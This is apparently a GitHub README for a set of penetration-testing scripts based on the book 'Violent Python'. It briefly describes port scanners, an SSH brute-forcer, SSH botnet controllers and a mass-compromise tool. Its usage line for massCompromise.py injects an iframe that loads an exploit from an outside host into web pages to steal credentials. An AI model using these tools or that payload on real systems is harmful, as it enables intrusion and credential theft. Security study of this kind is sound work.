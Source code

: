 # Digital-Forensic-Analytics
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on
The actual i have is Kali Linux 64 Bit 2018.2



# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it

## L) massCompromise.py
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location

taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt

## M) discoverNetworks.py  
Allow to analyse connected wifi through mac adress by reading windows registry
Usage  
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>
